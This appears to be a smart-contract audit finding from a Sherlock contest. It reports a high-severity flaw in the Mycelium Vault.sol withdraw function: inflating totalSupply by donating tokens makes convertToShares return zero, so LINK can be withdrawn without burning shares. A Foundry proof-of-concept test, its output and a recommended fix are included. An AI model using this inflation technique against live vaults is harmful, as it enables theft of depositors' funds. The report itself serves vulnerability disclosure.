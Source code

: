ctf_sec

high

# totalSupply() can be maliciously inflated and manipulated, user may withdraw token for free without burning shares in Vault.sol#withdraw because convertToShares return 0

## Summary

User may withdraw token for free without burning shares in Vault.sol#withdraw because convertToShares return 0 when totalSupply() is maliciously inflated

## Vulnerability Detail

When the user call the withdraw function,

the user is supposed to get their share burned and claim the LINK token.

however, given the implementation of the withdraw function,

User may not get their share burned and withdraw the LINK token for free when they call Vault.sol#withdraw because burned share can be 0

```solidity
        _ensureLinkAmount(_amount);

        _burnShares(msg.sender, convertToShares(_amount));

        IERC20(LINK).transfer(msg.sender, _amount);
```

if convertToShares(_amount) return 0,

then 0 share is burned, but if _amount is larger than 0,

the user can claim the link token for free via

```solidity
 IERC20(LINK).transfer(msg.sender, _amount);
```


Let me use the POC to demonstrate that convertToShares can return 0 bause the totalSupply() can be malicious inflated.

the function convertToShares use the formula:

token amount * total shares / total supply , if total supply is a very large number, it can return 0.

```solidity
    function convertToShares(uint256 _tokens) public view returns (uint256) {
        uint256 tokenSupply = totalSupply(); // saves one SLOAD
        if (tokenSupply == 0) {
            return _tokens * STARTING_SHARES_PER_LINK;
        }
        return _tokens.mulDivDown(totalShares, tokenSupply);
    }
```

the total supply is the sum of the link balance in the contract and the aLink token balance in all vault.

```solidity
    function totalSupply() public view override returns (uint256) {
        uint256 supply = IERC20(LINK).balanceOf(address(this));
        for (uint256 i = 0; i < pluginCount; i++) {
            supply += IPlugin(plugins[i]).balance();
        }
        return supply;
    }
```

Given the above implementation, total supply can be inflated in three ways.

1. Malicious actor can forcefully send LINK token to the vault contract to inflate the total supply.
2. Malicious actor can forcefully send aLINK token to the plugin contract to inflate total supply.
3. Malicious actor call deposit function directly on the AAVE V2 lending pool and deposit on behalf the plugin, then aLink token is minted directly toward the plugin contract.

https://github.com/aave/protocol-v2/blob/554a2ed7ca4b3565e2ceaea0c454e5a70b3a2b41/contracts/protocol/lendingpool/LendingPool.sol#L105

```solidity
  function deposit(
    address asset,
    uint256 amount,
    address onBehalfOf,
    uint16 referralCode
  ) external override whenNotPaused {
```

https://github.com/aave/protocol-v2/blob/554a2ed7ca4b3565e2ceaea0c454e5a70b3a2b41/contracts/protocol/lendingpool/LendingPool.sol#L122

```solidity
bool isFirstDeposit = IAToken(aToken).mint(onBehalfOf, amount, reserve.liquidityIndex);
```

## Impact

User may withdraw token for free without burning shares in Vault.sol#withdraw because convertToShares return 0 when totalSupply() is maliciously inflated

# POC

the POC below shows how convertToShares function return when the total supply is inflated.

```solidity
    function testZeroShare_POC() public {
    
        uint256 amount = 1 ether;

        // alice deposit 1 ETHER amount of link
        vm.startPrank(alice);
        link.mint(alice,  amount);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(amount);
        vm.stopPrank();

        uint256 sharesAmount = vault.convertToShares(0.5 ether);
        console.log("normally how many shares amount is returned");
        console.log(sharesAmount);
        console.log("------------------");

        link.mint(address(vault), 10000 ether);
        sharesAmount = vault.convertToShares(0.5 ether);
        console.log("less shares amount is returned when total supply is inflated");
        console.log(sharesAmount);
        console.log("------------------");

        link.mint(address(vault), 1000000000000000000000000 ether);
        console.log("0 shares amount is returned when total supply is inflated to a large number");
        sharesAmount = vault.convertToShares(0.5 ether);
        console.log(sharesAmount);

    }
```

please add the POC to the file deposit.t.sol under test folder

https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/test/Vault/deposit.t.sol

we can run the contest by running the command

```solidity
forge test -vvv --match testZeroShare_POC
```

and the running result is 

Running 1 test for test/Vault/deposit.t.sol:Vault_depositTest
[PASS] testZeroShare_POC() (gas: 180904)
Logs:
  normally how many shares amount is returned
  500000000000000000000
  ------------------
  less shares amount is returned when total supply is inflated
  49995000499950004
  ------------------
  0 shares amount is returned when total supply is inflated to a large number
  0

## Code Snippet

https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L153-L164

https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L614-L621

https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L552-L558

## Tool used

Manual Review

## Recommendation

We recommend the user add check to make sure 0 share is not allowed when user withdraw token.

We also recommend the project take a snapshot of the total supply and not use the balanceOf to calculate the total supply directly to avoid balance inflation.

```solidity   
        _ensureLinkAmount(_amount);
        uint256 shares =  convertToShares(_amount);
        require(shares > 0, 'invalid share amoutn');
        _burnShares(msg.sender, shares);
        IERC20(LINK).transfer(msg.sender, _amount);
```